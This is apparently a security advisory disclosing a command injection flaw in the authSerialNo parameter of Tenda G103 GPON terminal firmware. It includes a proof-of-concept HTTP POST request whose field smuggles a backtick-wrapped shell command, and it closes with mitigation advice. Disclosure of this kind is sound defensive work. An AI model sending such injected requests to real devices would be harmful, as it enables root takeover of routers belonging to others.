



# Tenda G103 Command Injection Vulnerability in `authSerialNo` Parameter of `action_set_net_settings` (gpon.lua)

## Overview

A command injection vulnerability exists in the `action_set_net_settings` function within the `gpon.lua` file of Tenda G103 GPON optical network terminals. This vulnerability is caused by improper sanitization of the `authSerialNo` parameter, which is directly concatenated into system commands without validation. Authenticated attackers can exploit this flaw to execute arbitrary system commands with root privileges, potentially leading to full device compromise.

The environment can be simulated using FirmAE:





## Details


*   **Vendor**: Tenda

*   **Product**: Tenda G103 GPON Optical Network Terminal

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: [https://tenda.com](https://tenda.com.cn/material/show/2615)[.cn/m](https://tenda.com.cn/material/show/2615)[ateri](https://tenda.com.cn/material/show/2615)[al/sh](https://tenda.com.cn/material/show/2615)[ow/26](https://tenda.com.cn/material/show/2615)[15](https://tenda.com.cn/material/show/2615)

*   **Affected Component**: `gpon.lua` (LuCI controller)

*   **Affected Function**: `action_set_net_settings`

*   **Affected Parameter**: `authSerialNo`

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, device serial number tampering, sensitive data leakage, or complete device takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_net_settings` function handles the `authSerialNo` parameter, which is used to configure the authentication serial number for GPON device identification. Critical flaw: the `authSerialNo` parameter is directly passed to system commands such as `tdtool`, `fw_setenv`, and `uci` without any sanitization or input validation.

Key vulnerable code in `gpon.lua`:


Attackers can inject arbitrary commands by embedding shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or `&&`) in the `authSerialNo` parameter. Since these characters are not filtered, the injected payload is parsed and executed by the system shell when the concatenated commands run.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File


```
POST /cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/gpon/set-net-settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 46
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; isLogin=true; sysauth=ca14c877a3df6cdc740bf4bbef3f02c1; sysauth=; repeatTimes=0; isLogin=true
Connection: keep-alive

authSerialNo=1\`touch\$IFS/tmp/authSerialNo.txt\`
```

#### Execution Steps:


1.  Send the POST request above with a valid `stok` (session token) and authentication cookies.

2.  Access the device (via CLI, telnet, or another injected command) and verify the existence of `/tmp/authSerialNo.txt`.

#### Expected Result:

The file `/tmp/authSerialNo.txt` is created, confirming successful execution of the injected `touch` command.







## Mitigation Recommendations


1.  **Input Sanitization**: Implement strict validation for `authSerialNo` to allow only alphanumeric characters (consistent with typical serial number formats).

2.  **Command Escaping**: Use `luci.util.shellquote` to escape the parameter before concatenating it into system commands (e.g., `string.format("/usr/bin/tdtool 1 %s", luci.util.shellquote(authSerialNo))`).

3.  **Least Privilege**: Restrict the privileges of processes executing these commands to minimize the impact of successful exploitation.
